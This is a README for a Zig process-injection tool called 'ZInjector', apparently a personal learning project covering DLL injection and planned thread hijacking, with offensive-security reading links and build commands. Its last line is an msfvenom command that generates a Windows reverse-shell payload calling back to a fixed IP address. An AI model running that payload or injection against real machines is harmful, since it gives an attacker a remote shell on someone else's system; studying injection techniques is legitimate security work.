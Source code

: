# ZInjector

Simple Process injector for Windows and Linux written in Zig.

## DISCLAIMER

This is my first project in Zig. The goal is to learn Zig and perform process injection.
I haven't decided what to implement yet, but the first steps are to learn Zig and implement simple DLL injection. Next, I will move on to a similar project for Linux, such as LD_PRELOAD hijacking or ptrace-based injection.

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/
- https://privdayz.com/tools/shellcode-gen

## Dev

- Zig Version: 0.15.1
- OS: Arch Linux
- IDE: Zed
- LSP: zls and clangd

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [ ] Thread Hijacking
  - [ ] Implement search by name also in Thread Hijacking

## Command:

- Compile: `zig build -Dtarget=x86_64-windows -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generatore `msfvenom -p windows/shell_reverse_tcp LHOST=172.19.192.194 LPORT=8080 -f hex`
